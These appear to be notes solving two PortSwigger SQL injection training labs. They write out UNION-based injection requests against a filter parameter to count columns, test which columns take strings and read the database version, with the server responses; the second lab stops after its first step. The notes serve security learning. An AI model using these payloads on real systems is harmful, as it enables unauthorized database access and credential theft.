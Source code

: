 
# ***6. SQL injection attack, querying the database type and version on MySQL and Microsoft***
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

To solve the lab, display the database version string - Make the database retrieve the string: **'8.0.31'**

1. determine how many coloumns are in the current table:
> GET /filter?category=Gifts'+UNION+SELECT+NULL,+NULL+FROM+information_schema.tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK
note the use of **--+-** instead of just **--**


2. determine how many of them support stroing values:
**request3**
> GET /filter?category=Gifts'+UNION+SELECT+'test',+'test'+FROM+information_schema.tables--+-  HTTP/1.1
response:
> HTTP/1.1 200 OK

both fields support strings

3. exfiltrate version:
2 options:
- Microsoft 	SELECT @@version
- MySQL 	SELECT @@version 
**request:**
>GET /filter?category=Gifts'+UNION+SELECT+@@version,+NULL+FROM+information_schema.tables--+- HTTP/1.1
response:
```htm
HTTP/1.1 200 OK
<th>8.0.31</th>
```
**Lab solved**

# [***7. SQL injection attack, listing the database contents on non-Oracle databases***](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

 The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

1. determine how many coloumns are in the current table:
> GET /filter?category=Lifestyle'+UNION+SELECT+NULL,+NULL+FROM+information_schema.tables--+- HTTP/1.1
response:
> HTTP/1.1 200 OK
note the use of **--+-** instead of just **--**
